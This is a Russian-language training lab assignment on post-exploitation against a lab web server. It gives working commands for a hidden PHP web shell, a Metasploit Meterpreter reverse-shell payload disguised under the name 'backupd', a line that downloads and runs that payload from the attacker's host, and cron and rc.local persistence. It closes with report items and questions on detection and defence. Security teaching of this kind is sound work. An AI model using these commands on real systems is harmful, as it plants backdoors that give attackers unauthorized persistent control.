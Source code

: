 
## Цель работы

Освоить методы закрепления на компрометированной системе после успешного проникновения, включая установку персистентных бэкдоров и создание каналов удалённого управления.

---

## Задачи работы

- Установить бэкдор на веб-сервер (IP: `10.10.6.4`) для сохранения доступа.
    
- Создать реверс-шелл с помощью `Metasploit Framework`.
    
- Настроить персистентность через автозагрузку (cron/systemd).
    

---

## Теоретическая часть

### 1. Этап постэксплуатации в киберкиллчейне

**Постэксплуатация** — критическая фаза пентеста, начинающаяся после получения первоначального доступа к системе. Её цели:

1. **Закрепление позиций:** Предотвращение потери доступа при перезагрузке/обновлении системы.
    
2. **Эскалация привилегий:** Получение прав root/Administrator.
    
3. **Перемещение по сети:** Доступ к другим узлам внутренней сети.
    
4. **Сбор данных:** Извлечение конфиденциальной информации (пароли, документы, ключи).
    
5. **Маскировка активности:** Удаление логов, использование легитимных процессов.
    

### 2. Техники сохранения доступа

#### 2.1 Бэкдоры

- **Определение:** Скрытые механизмы для удалённого управления системой в обход аутентификации.
    
- **Типы:**
    
    - _Сетевые:_ Открытие скрытых портов (напр., веб-шеллы PHP).
        
    - _Пользовательские:_ Модификация SSH-ключей, RDP-клиентов.
        
    - _Бинарные:_ Замена системных утилит (e.g., модифицированный `netstat`).
        

#### 2.2 Реверс-шеллы

- **Принцип работы:** Инициация соединения **от жертвы к атакующему**, обходя фаерволы/NAT.
    
- **Преимущества:**
    
    - Не требует открытия портов на цели.
        
    - Маскируется под легитимный трафик (HTTPS/DNS).
        
- **Инструменты:** `Netcat`, `Metasploit`, `PowerCat` (Windows).
    

#### 2.3 Персистентность

- **Методы автозапуска:**
    
    - **Linux:**
        
        - Cron-задачи (`@reboot /root/.backdoor.sh`).
            
        - Systemd-сервисы.
            
        - Файлы `~/.bashrc`, `/etc/rc.local`.
            
    - **Windows:**
        
        - Реестр (`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`).
            
        - Планировщик задач (Task Scheduler).
            

### 3. Инструментарий

**Metasploit Framework:**

- Генерация шеллов (`msfvenom`).
    
- Управление сессиями (`multi/handler`).
    
- Автоматизация постэксплуатации (модули `post/*`).
    

**Netcat:**

- Создание bind/reverse-shell.
    
- Переадресация портов.
    
- Ручная передача файлов.
    

---

## Ход выполнения лабораторной работы

_Предполагается, что уязвимость на `10.10.6.4` уже эксплуатирована (напр., через RCE в веб-приложении)._

### Шаг 1: Установка веб-шелла

**Цель:** Создать скрытый доступ через веб-интерфейс.

1. Загрузите PHP-бэкдор на сервер:
    

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > .hidden.php
``` 

2. Проверьте доступ:
    

```bash
curl http://10.10.6.4/.hidden.php?cmd=id
```
_Ожидаемый вывод:_ `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

### Шаг 2: Создание реверс-шелла через Metasploit

**Цель:** Получить интерактивную сессию Meterpreter.

1. Сгенерируйте полезную нагрузку:
    
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=ВАШ_IP LPORT=4444 -f elf > backupd  
```  

2. Запустите обработчик в Metasploit:
    
```text
msf6 > use exploit/multi/handler  
msf6 > set payload linux/x64/meterpreter/reverse_tcp  
msf6 > set LHOST 0.0.0.0  
msf6 > set LPORT 4444  
msf6 > run  
```
3. Через веб-шелл выполните на цели:
    
```bash
curl http://ВАШ_IP/backupd -o /tmp/backupd && chmod +x /tmp/backupd && /tmp/backupd
```

### Шаг 3: Настройка персистентности

**Цель:** Сохранить доступ после перезагрузки.

1. В сессии Meterpreter:
    

```text
meterpreter > shell  
$ echo "nohup /tmp/backupd &" >> /etc/rc.local  
$ (crontab -l ; echo "@reboot sleep 60 && /tmp/backupd")|crontab -  
```


2. Проверьте:
```text
$ crontab -l  
$ cat /etc/rc.local  
```


---

## Форма отчета

1. **Цель и задачи.**
    
2. **Теория:** Краткое описание техник постэксплуатации.
    
3. **Результаты:**
    
    - Вывод команды `id` через веб-шелл (скриншот).
        
    - Скриншот сессии Meterpreter.
        
    - Подтверждение настройки автозапуска (содержимое `crontab`).
        
4. **Выводы:**
    
    - Почему реверс-шеллы эффективнее бинд-шеллов?
        
    - Какие методы маскировки бэкдора были использованы?
        
    - Риски использования `rc.local` vs `cron`.
        

---

## Вопросы для самоконтроля

1. Чем отличается бинд-шелл от реверс-шелла?
    
2. Почему Meterpreter предпочтительнее стандартного шелла?
    
3. Как обнаружить бэкдор в автозагрузке Linux?
    
4. Какие риски создаёт оставление веб-шелла?
    
5. Как защититься от техник, использованных в работе?
    
6. Зачем нужен `nohup` при добавлении в автозапуск?